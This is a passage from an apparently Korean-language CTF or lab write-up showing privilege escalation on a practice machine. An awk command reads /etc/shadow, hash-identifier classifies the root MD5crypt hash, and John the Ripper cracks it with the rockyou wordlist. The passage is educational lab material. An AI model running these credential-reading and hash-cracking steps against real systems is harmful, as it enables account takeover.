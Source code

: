 ![alt text](/image/image-10.png)

```sh
LFILE=/etc/shadow
awk '//' "$LFILE"

root:$1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1:19493:0:99999:7:::

┌──(kali㉿kali)-[~/observer]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1

Possible Hashs:
[+] MD5(Unix)
--------------------------------------------------\
```

이 후 root의 패스워드를 root_pass라는 파일을 생성하여 저장한 뒤, `johntheripper`를 사용하여 패스워드 크래킹 시도를 하였고 성공했다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt root_pass

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
larissa          (?)   #root 패스워드  
1g 0:00:00:00 DONE (2024-08-22 04:02) 33.33g/s 96000p/s 96000c/s 96000C/s my3kids..skater1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
